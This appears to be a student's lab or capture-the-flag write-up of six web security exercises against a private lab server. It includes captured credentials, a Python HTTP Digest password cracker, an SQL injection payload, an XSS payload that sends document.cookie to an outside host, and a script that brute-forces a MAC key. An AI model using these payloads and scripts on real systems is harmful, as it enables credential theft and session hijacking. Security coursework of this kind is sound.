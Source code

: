 # 1

## Packet

```
IP 192.168.14.3.46826 > 192.168.14.1.80: Flags [P.], seq 1:143, ack 1, win 502, options [nop,nop,TS val 1452909150 ecr 2428281190], length 142: HTTP: GET /secret/file HTTP/1.1
E.....@.@..............P.Tw.|..j...........
V..^...fGET /secret/file HTTP/1.1
Host: 192.168.14.1
Authorization: Basic dHJhdmlzMTQ6bWFpdkRlY2d1cjIyMDI=
User-Agent: curl/7.58.0
Accept: */*
```

## User/Pass
`travis14:maivDecgur2202`

## Contents

```html
I'm going to let you in on a little secret. Every day, once a day, give yourself a present. Don’t plan it; don’t wait for it; just let it happen.
- Dale Cooper
```

# 2
## Packet

```
182203 IP 192.168.14.2.36586 > 192.168.14.1.80: Flags [P.], seq 91:464, ack 308, win 501, options [nop,nop,TS val 422351445 ecr 1957960104], length 373: HTTP: HEAD /secret/cheese HTTP/1.1
E.....@.@..v...........P,..................
.,.Ut...HEAD /secret/cheese HTTP/1.1
Host: 192.168.14.1
Authorization: Digest username="travis14", realm="Cheese", nonce="/DPYEFbSBQA=c06893026441a70acf049b49540e97acd2bdd640", uri="/secret/cheese", cnonce="ZjdlNTk0ZGZmMDQwZTU3OTM2MTIxOGEyNzljNDJlYzc=", nc=00000001, qop=auth, response="872aafc461761e417d2df47b85e43d2b", algorithm="MD5"
User-Agent: curl/7.58.0
Accept: */*
```

## Crack

```python
# HTTP Digest Authentication cracker
import hashlib

username = "travis14"
realm = "Cheese"
nonce = "/DPYEFbSBQA=c06893026441a70acf049b49540e97acd2bdd640"
uri = "/secret/cheese"
qop = "auth"
nc = "00000001"
cnonce = "ZjdlNTk0ZGZmMDQwZTU3OTM2MTIxOGEyNzljNDJlYzc="
response = "872aafc461761e417d2df47b85e43d2b"

# Calculate the response
with open("10k-most-common.txt") as f:
    for line in f:
        line = line.strip('\n').strip()
        ha1 = hashlib.md5((username + ":" + realm + ":" + line).encode('utf-8')).hexdigest()
        ha2 = hashlib.md5(("HEAD" + ":" + uri).encode('utf-8')).hexdigest()
        response = hashlib.md5((ha1 + ":" + nonce + ":" + nc + ":" + cnonce + ":" + qop + ":" + ha2).encode('utf-8')).hexdigest()
        # print(line + ":" + response)
        if (response == "872aafc461761e417d2df47b85e43d2b"):
            print("Password: " + line)
            break

```
## Password

`Password: domain`

## Contents

```
Intelligence alone is not nearly enough when it comes to acting wisely.

— Fyodor Dostoevsky
```

# 3

## Cookie

`Stephen2019-11-03T12%3A44%3A21Z`

# 4

The secret to figuring out the SQL injection was ~~trying everything~~ tuning the query to stop returning Error 500.

## Request

`picture=char-kway-teow.jpg'+OR+1=1+AND'user=alice--`

## Response

`The best char kway teow is Penang char kway teow (lat: 5.411135 / lng: 100.330462)`

# 5


## XSS

```html
<script>document.location="http://192.168.14.3:8080/?cookie="+document.cookie;</script>
```

## Cookie
`GET /?cookie=auth=Iwillseeyouagainin32years. HTTP/1.1" 200 -`

## Writeup
The main additional thing I did was start up a `SimpleHTTPServer` on port 8080 of the server I have SSH access to. The attack works because the server is making an HTTP request to that port with the cookie being that of the browser.

# 6
## Code
```python
import requests
from requests.packages.urllib3.exceptions import InsecureRequestWarning
import string

requests.packages.urllib3.disable_warnings(InsecureRequestWarning)

actual = ""
key = "Z"*19
for n in range(19, -1, -1):
    res2 = requests.get("https://192.168.14.1/mac-cookie?username="+key,
                        verify=False).text.replace(".", "").split(" ")[-1].split('\n')[0]
    for c in string.printable:
        test = key[:n] + c
        res1 = requests.get("https://192.168.14.1/mac-cookie?username="+test,
                            verify=False).text.replace(".", "").split(" ")[-1].split('\n')[0]
        #print(test, res1, res2)
        if res1 == res2:
            actual = c + actual
            break
    key = key[:-1]

print("Key is", actual)
```

## Key
`###################k`
